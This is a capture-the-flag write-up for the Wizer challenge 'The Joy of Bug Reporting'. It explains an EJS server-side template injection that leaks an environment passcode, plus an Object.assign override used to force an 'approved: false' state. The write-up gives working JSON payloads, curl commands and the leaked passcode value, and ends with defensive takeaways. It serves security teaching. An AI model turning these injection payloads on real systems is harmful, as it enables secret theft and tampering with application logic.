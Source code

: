 # Wizer CTF: The joy of bug reporting #2

### Link to challenge: [CTF #2](https://sam.wizer-ctf.com/?id=1or13oi_8621k)

## Challenge Writeup: "The Joy of Bug Reporting"

## Goal

The goal of this challenge was to manipulate the server's state to achieve a very specific configuration: **create 1 exclusive object, 1 exclusive object pending approval, and 1 standard object to win the flag.**

## Description of Code

We were given a Node.js app (`server.js`) that exposed two main endpoints. Here's what each of them was supposed to do:

- **`/reportBug` :** This endpoint is intended for users to submit bug reports. It accepts a `comment`, `name`, and an `avatarBase64` string(basically the image in base64). It then uses the EJS templating engine to generate a webpage using this data — including injecting the image into an HTML `<img>` tag.
    
    **See This endpoint code snippet below:**
    
    ![/reportBug](80cafc39-ff1e-4a3d-aeaf-fc20202152a8.png)
    
- **`/createObjects`:** This endpoint is designed to receive and process an array of various objects. It categorizes and counts these objects based on their `type` and the presence/validity of an `exclusivePasscode`.
    - If the object is of type `exclusive`,  it validates their `exclusivePasscode` against a secret `process.env.EXCLUSIVE_PASSCODE`.
        - If the passcode is correct, it creates the object using this line: `Object.assign({ approved: true }, object)`.
        - If the passcode is wrong, the whole request is immediately rejected with an "Invalid passcode" error.
    - Regular (`non-exclusive`) objects skip this passcode check.
    - Finally, the server counts how many "**approved exclusive objects**," "**exclusive objects pending approval**," and "**standard objects**" have been processed, and reports these counts in its response.
    
     **See This endpoint code snippet below:**
    
    ![/createObjects](b99bdfe3-7f65-41a4-b54e-56f51442d7b4.png)
    

## What’s Wrong with That Approach?

There are two big issues with this setup that open the door for exploitation:

1. **Server-Side Template Injection (SSTI) in `/reportBug`:**
    - The `avatarBase64` input is directly embedded into an HTML image tag's `src` attribute within a template string (`<img src="data:image/png;base64, ${avatarBase64}" ...>`). This string is then passed to `ejs.render`.
    - Because the `avatarBase64` content is concatenated *before* EJS rendering, any EJS template syntax included within `avatarBase64` will be evaluated by the server's EJS engine. This allows an attacker to inject and execute arbitrary EJS code.
2. **Exploitable `Object.assign` Behavior in `/createObjects`:**
    - When an exclusive object with a valid passcode is processed, the code merges `approved: true` with the object via `Object.assign({approved: true}, object)`.
    - However, if the incoming object explicitly contains `"approved": false`, this value will *overwrite* the default `true`, due to how `Object.assign` works.
    - This means an attacker can bypass the approval logic even with a valid passcode by forcibly setting `approved: false`, resulting in the object being counted as "**pending approval**" instead of "**approved**”.

## What would a successful **Server-Side Template Injection (SSTI)** and **API Logic Exploitation** attack look like?

A successful attack chain involves first leaking a secret using SSTI, and then using that secret in a precisely crafted single API request to manipulate the object counts.

1. **Phase 1: Passcode Leak via Server-Side Template Injection on `/reportBug`**
    - **Method:** We exploit the SSTI in the `/reportBug` endpoint to extract the `process.env.EXCLUSIVE_PASSCODE` secret, which is necessary to create approved exclusive objects.
    - **How to Achieve It:** Send a POST request to `/reportBug` with the `avatarBase64` field containing EJS templating that will print the environment variable.
    - **Payload:**
        
        ```json
        {
          "comment": "Leaking Passcode",
          "name": "Attacker",
          "avatarBase64": "R0lGODlhAQABAIAAAP///wAAACH5BAEAAAAALAAAAAABAAEAAAICRAEAOw==\"><%- process.env.EXCLUSIVE_PASSCODE %>"
        }
        ```
        
    - and here is the cURL command
    
    ```powershell
    curl -X POST "[https://event5-challenge2-jbdfv.vercel.app/reportBug](https://event5-challenge2-jbdfv.vercel.app/reportBug)" \
    -H "Content-Type: application/json" \
    -d '{"comment": "Leaking Passcode", "name": "Attacker", "avatarBase64": "R0lGODlhAQABAIAAAP///wAAACH5BAEAAAAALAAAAAABAAEAAAICRAEAOw==\"><%- process.env.EXCLUSIVE_PASSCODE %>"}'
    ```
    
    - **Result:** The server's HTML response will embed the leaked passcode within the `src` attribute of the `<img>` tag. From the provided logs, the leaked passcode was **`TJNFVD897823HDJ45JCFV904JD`**.
2. **Phase 2: Create Objects via API Logic Exploitation on `/createObjects`**
    - **Method:** Leverage the specific behavior of `Object.assign` by including an explicit `"approved": false` property for the "pending approval" object in the same request as the approved exclusive object and the standard object. This allows all three conditions to be met in a single API call.
    - **How to Achieve It:** Send a single POST request to `/createObjects` with a payload containing all three required object types.
        - **Approved Exclusive Object:** Has `type: "exclusive"` and the *correct* `exclusivePasscode`.
        - **Pending Approval Exclusive Object:** Has `type: "exclusive"`, the *correct* `exclusivePasscode`, and crucially, `"approved": false` explicitly set in its payload. This `approved: false` will override `Object.assign({approved: true}, object)` for this specific object, causing it to be counted as pending approval.
        - **Standard Object:** Has any `type` other than `"exclusive"`.
    - **Payload:**
        
        ```json
        [
          { "type": "exclusive", "exclusivePasscode": "TJNFVD897823HDJ45JCFV904JD", "name": "approved_exclusive_obj" },
          { "type": "exclusive", "exclusivePasscode": "TJNFVD897823HDJ45JCFV904JD", "name": "pending_exclusive_obj", "approved": false },
          { "type": "standard", "name": "standard_obj" }
        ]
        ```
        
    - and here is the command to send payload
    
    ```powershell
    curl -X POST "[https://event5-challenge2-jbdfv.vercel.app/createObjects](https://event5-challenge2-jbdfv.vercel.app/createObjects)" \
    -H "Content-Type: application/json" \
    -d '[ {"type": "exclusive", "exclusivePasscode": "TJNFVD897823HDJ45JCFV904JD", "name": "approved_exclusive_obj"},
    			{"type": "exclusive", "exclusivePasscode": "TJNFVD897823HDJ45JCFV904JD", "name": "pending_exclusive_obj", "approved": false},
    			{"type": "standard", "name": "standard_obj"}]'
    ```
    
    - **Expected Server Response:** `Successfully created 1 exclusive objects, 1 exclusive objects pending approval and 1 standard objects` (This single response indicates all conditions are met).

## So What?

This challenge demonstrates how even seemingly robust server-side logic and validation, when combined with specific language features like `Object.assign`, can present subtle but critical vulnerabilities. An SSTI allowed sensitive information (the passcode) to be stolen. This secret, combined with a precise understanding of property assignment, then enabled direct manipulation of the application's state in a well-crafted API request. This highlights that application security relies on a deep understanding of all code interactions and potential overrides.

## Main Takeaways:

- **Avoid Direct User Input Concatenation into Templates:** Always pass user-supplied data as variables to templating functions and rely on the templating engine's built-in escaping to prevent SSTI.
- **Understand Language-Specific Behaviors:** A thorough understanding of how built-in functions (like `Object.assign`) and language features handle property assignment and precedence is crucial. Misunderstandings can lead to unexpected and exploitable behaviors.
- **Comprehensive Input Validation (Beyond Basic Types):** Validation should not just check for data types or simple formats, but also consider how input properties might interact with internal object construction or business logic.

### **Code Wizer!**
